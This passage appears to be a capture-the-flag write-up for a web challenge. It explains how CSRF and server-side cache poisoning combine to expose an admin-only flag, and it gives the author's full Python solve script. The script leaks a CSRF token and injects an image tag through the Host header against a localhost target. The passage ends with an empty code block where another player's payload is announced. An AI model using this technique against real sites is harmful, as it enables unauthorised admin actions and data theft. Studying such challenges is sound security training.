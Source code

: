 The last part of the challenge was kind of subtle and some people did not realize this but when the admin creates an admin snake via CSRF, that snake still has some permissions checks. You must be an admin to view it and get the flag. However, because when the admin visits the viper, it will be saved in the cache and unlike visiting the actual URL, there are no permissions checks. Combining these steps, you could exfiltrate the flag. Here is my solve script:
```python
import requests
import base64
import urllib
from time import sleep

base_url = "http://localhost:4002"

s = requests.Session()

# step 1 -> user creates account and gets cookies

r = s.get(base_url + "/create")

viper_id = r.text.split("snake: ")[1].split("</h1>")[0]

print("Viper ID: " + viper_id)

# step 2 -> get csrf token

r = requests.get(base_url + "/analytics?ip_address=__csrftoken__admin_account")

csrfToken = urllib.parse.quote_plus(base64.b64encode(r.text.split("site ")[1].split(" ")[0].encode()))

print("Found CSRF token: " + csrfToken)

# step 3 -> poison server side cache

print("Waiting for previous cache to expire, sleeping for 23 seconds")
sleep(23)

headers = {"host": "localhost:4002<img src='http:&#47;&#47;localhost:4002&#47;admin&#47;create?viperId=eec42479-721b-40ab-9be1-5a93ace9709f&csrfToken=" + csrfToken + "'>"}

r = s.get(base_url + "/viper/" + viper_id, headers=headers, cookies=s.cookies.get_dict())
print(r.text)

# manual step, admin visits poisoned site (can implement using headless chromium)

print("Admin must visit: " + base_url + "/viper/" + viper_id)
print("Sleeping for 10 seconds")

sleep(10)

# get flag

r = requests.get(base_url + "/viper/eec42479-721b-40ab-9be1-5a93ace9709f")

flag = r.text.split("snake: ")[1].split("</h1>")[0]

print(flag)
```
The interesting part of this challenge actually was in how people abused the cache poisoning vulnerability. I was closely following Kernel Sanders solve the problem and they used a completely different path. Instead of using an image tag and using the src element to make a get request, they chose to use the fetch request from the analytics. The following is their payload:
```bash
```